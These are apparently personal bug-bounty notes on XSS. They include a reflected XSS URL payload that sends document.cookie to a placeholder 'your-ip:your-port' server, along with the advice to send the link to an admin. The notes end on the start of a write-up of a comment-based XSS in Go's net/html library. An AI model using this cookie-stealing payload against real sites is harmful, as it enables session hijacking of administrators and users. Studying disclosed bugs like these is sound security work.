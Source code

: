 **When the admin visits this URL, the script runs, and the attacker's server receives the cookie information. In which, the URL might look like this:**

```html
http://example.com/verify?token=<script>var i = new Image(); i.src = "http://your-ip:your-port/?cookie=" + document.cookie;</script>

```

Once the admin accessed my request, the js code was activated and I received my cookie session inside http. sever log.  
An hour after the Report, the vulnerability was fixed

![](https://miro.medium.com/v2/resize:fit:875/0*WgsuBkzhEOi6Z1wc)

					output of the stolen cookie

-> send to the admin and hope they open it 

```html
http://example.com/?q=<script>var i = new Image(); i.src = "http://your-ip:your-port/?cookie=" + document.cookie;</script>
```

---

XSS Url encoding by lostsec:

https://youtu.be/s96Dos8i8Qg


---

## $3,133.70 XSS in golang's net/html library

This is how HTML comments normally look like:

![[Pasted image 20250202174557.png]]


_and you may be wondering.. what's the point of messing up with comments?  **What could you achieve?**_

![[Pasted image 20250202174651.png]]

For simplicity, let's only allow headers tags.

So i write some code that takes the description from the user, parses the HTML, and checks whether all tags that are in this HTML **are allowed or not.**

![[Pasted image 20250202175127.png]]

if they are not, i forbid the user from saving this description. if they are, i'd consider this description safe and i show it to other users, where this HTML is being parsed in thri browsers.

![[Pasted image 20250202175313.png]]

so if we manage to hide some html code in the comment section, **We will manage to get xss working.**
